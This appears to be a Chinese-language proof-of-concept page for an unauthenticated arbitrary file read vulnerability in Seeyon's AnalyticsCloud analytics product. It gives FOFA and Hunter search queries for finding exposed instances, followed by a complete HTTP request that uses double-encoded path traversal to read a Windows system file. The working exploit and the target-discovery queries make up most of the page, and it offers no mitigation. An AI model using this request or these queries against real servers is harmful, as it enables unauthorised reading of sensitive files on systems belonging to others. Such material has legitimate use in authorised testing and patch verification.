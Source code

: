 ## 致远互联AnalyticsCloud分析云存在任意文件读取漏洞

北京致远互联软件股份有限公司AnalyticsCloud分析云存在任意文件读取漏洞，未经身份认证的攻击者可以利用此漏洞读取系统内部敏感文件，获取敏感信息。

## fofa

```yaml
title="AnalyticsCloud 分析云"
```

## hunter

```yaml
web.title="AnalyticsCloud 分析云"
```

## poc

```yaml
GET /a/.%252e/.%252e/.%252e/.%252e/.%252e/.%252e/.%252e/.%252e/.%252e/.%252e/.%252e/.%252e/.%252e/.%252e/.%252e/.%252e/.%252e/.%252e/.%252e/.%252e/c:/windows/win.ini HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Connection: keep-alive
Host: your-ip
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
```

![image-20240719114011759](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407191140011.png)